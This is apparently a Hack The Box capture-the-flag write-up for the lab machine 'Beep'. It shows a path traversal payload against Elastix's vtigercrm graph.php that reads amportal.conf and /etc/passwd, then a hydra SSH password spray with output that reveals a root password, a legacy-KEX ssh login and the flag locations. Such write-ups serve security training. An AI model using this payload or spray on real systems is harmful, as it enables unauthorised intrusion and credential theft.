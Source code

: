 # Beep

10.10.10.7

## Recon
This box is running Elastix which appears to be a phone controller. It also has what appears to be a mail service called Cyrus.

## Finding Vulns
While searching for vulnerabilities, we stumble across EDB-37637 which tells us Elastix has an LFI vulnerability. The vulnerable path is `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

We are able to use the same exploit to view `/etc/passwd`

## Exploitation
We found a few passwords in `amportal.conf` and some usernames in `/etc/passwd`. We added the users and passwords to custom wordlists and then sprayed ssh with them. Suprisingly, we have access to log in as root.

```bash
┌──(nate@kali-Dell)-[~/hackthebox/beep]                                                         [25/148]
└─$ hydra -L users -P passwords 10.10.10.7 ssh                                                          
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service
 organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway). 
                                                                                                        
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-26 12:33:55                      
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the ta
sks: use -t 4                                                                                           
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous 
session found, to prevent overwriting, ./hydra.restore                                                  
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task              
[DATA] attacking ssh://10.10.10.7:22/                                                                   
[22][ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE                                       
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-26 12:34:35
```

Unfortunately, we get an error message about the key exchange algorithm. Searching google we see this is a common issue when working with old systems. We're able to use a legacy KEX method using a config option:

```bash
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
```

We then specify the password which we found in the config file: `jEhdIekWmdjE`

## Flags

We find user flag at
`/home/fanis/user.txt`
and root flag at
`/root/root.txt`